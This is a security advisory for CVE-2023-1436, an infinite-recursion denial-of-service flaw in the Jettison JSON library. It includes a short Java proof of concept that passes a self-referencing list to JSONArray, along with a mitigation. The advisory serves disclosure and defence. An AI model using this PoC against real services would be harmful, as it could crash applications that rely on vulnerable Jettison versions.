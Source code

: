 ```yaml
---
description: CVE-2023-1436 Medium severity. Infinite recursion in Jettison leads to denial of service when creating a crafted JSONArray
title: Jettison JSONArray DoS
date_published: "2023-03-16"
last_updated: "2023-03-16"
xray_id: XRAY-427911
vul_id: CVE-2023-1436
cvss: 5.9
severity: medium
discovered_by: Nitay Meiron
type: vulnerability

---
```


## Summary

Infinite recursion in Jettison leads to denial of service when creating a crafted JSONArray

## Component

org.codehaus.jettison:jettison

## Affected versions

(,1.5.4)

## Description

An infinite recursion is triggered in Jettison when constructing a JSONArray from a Collection that contains a self-reference in one of its elements. This leads to a StackOverflowError exception being thrown.

## PoC

```java
public class POC {
    public static void main(String[] args) throws JSONException {
        ArrayList<Object> list = new ArrayList<>();
        list.add(list);
        JSONArray jsonArray = new JSONArray(list);
    }
}
```



## Vulnerability Mitigations

Wrap Jettison's `JSONArray` constructor with exception handling -
```java
try {
	JSONArray jsonArray = new JSONArray(list);
}
catch(StackOverflowError e) {
	System.err.println("ERROR: Stack limit reached");
}
```



## References

No references are supplied for this issue


